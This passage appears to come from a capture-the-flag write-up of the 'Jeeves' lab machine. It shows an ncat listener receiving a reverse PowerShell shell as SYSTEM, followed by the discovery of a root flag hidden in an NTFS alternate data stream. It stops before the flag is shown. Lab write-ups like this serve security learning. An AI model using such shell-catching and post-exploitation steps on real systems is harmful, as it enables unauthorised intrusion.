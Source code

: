 ```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49690.
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
```

### Grabbing the root.txt Flag (Alternate Data Streams)

At this point, I found a file `C:\Users\Administrator\Desktop\hm.txt` rather than `C:\Users\Administrator\Desktop\root.txt`:

```none
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       12/24/2017   2:51 AM             36 hm.txt
-a----        11/8/2017   9:05 AM            797 Windows 10 Update
                                                 Assistant.lnk


PS C:\Users\Administrator\Desktop> Get-Content hm.txt
The flag is elsewhere.  Look deeper.
```

The keyword here was `Look deeper`. From prior experience, I knew that in some CTFs, challenge authors like to hide flags in alternate data streams within files that seem empty or irrelevant. I figured I would check all data streams in `C:\Users\Administrator\Desktop\hm.txt`:

```none
PS C:\Users\Administrator\Desktop> Get-Item .\hm.txt -Stream *


   FileName: C:\Users\Administrator\Desktop\hm.txt

Stream                   Length
------                   ------
:$DATA                       36
root.txt                     34
```

It looks like there was a `root.txt` data stream embedded in `C:\Users\Administrator\Desktop\hm.txt`! After dumping the content from the `root.txt` data stream, I was able to capture the `root.txt` flag:
